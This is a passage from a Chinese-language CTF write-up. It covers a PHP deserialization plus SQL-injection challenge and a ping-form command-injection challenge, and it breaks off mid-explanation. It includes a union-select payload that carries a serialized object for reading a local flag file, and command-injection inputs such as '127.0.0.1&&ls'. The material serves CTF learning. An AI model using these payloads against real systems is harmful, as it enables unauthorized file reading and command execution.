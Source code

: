 ```php
<?php	// 反序列化php代码
 class UserInfo{
    public $name = "x";
    public $age = 123;
    public $blog = "file:///var/www/html/flag.php";
}

$obj= new UserInfo;
echo serialize($obj);
?>
```

url序列化参数进入

```
?no=0/**/union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:1:"x";s:3:"age";i:123;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'
```

查看页面源码就可以看到经过Base64加密的源码，解码后就看到flag了

[答题参考](https://blog.csdn.net/qq_41500251/article/details/105383065)





### Cat

题目提示：抓住那只猫（猜测是linux下的命令执行）

随着提示信息，我们输入域名，例如输入题目提示域名loli.club，但是无任何响应。不过URL中为get请求，继续测试127.0.0.1，返回对应的ping值，ok，大概知道题目是什么路数了。说明这是一个功能框，输入对应的ip会ping到对应连接情况。

尝试执行命令，127.0.0.1&&dir、127.0.0.1&&ls、127.0.0.1|ls均被屏蔽，无法入手

又陷入困境了



看了师傅们的WP：

唯一收获到的是网站使用的是url编码能够传入。随便输入不同的url编码值，编码在我之前的一篇博文中有提供：https://blog.csdn.net/harry_c/article/details/97913194
当输入边界值%80时系统产生报错，看到报错心中窃喜，是否为突破口。

> 我们传递个%79发现传递之后变成了?url=w，看来是可以传递url编码，系统会接受并进行解析，于是我们传递%80会出现报错，url编码使用的是16进制，80也就是128，ASCII码是从0-127，所以这个时候会报错
>
> 报错信息中可以看到：
>
> ```
> <title>UnicodeEncodeError at /api/ping</title>
> 
> 使用的是python站点
> 使用的是Django框架
> ```

其实在比赛的时候有个提示：
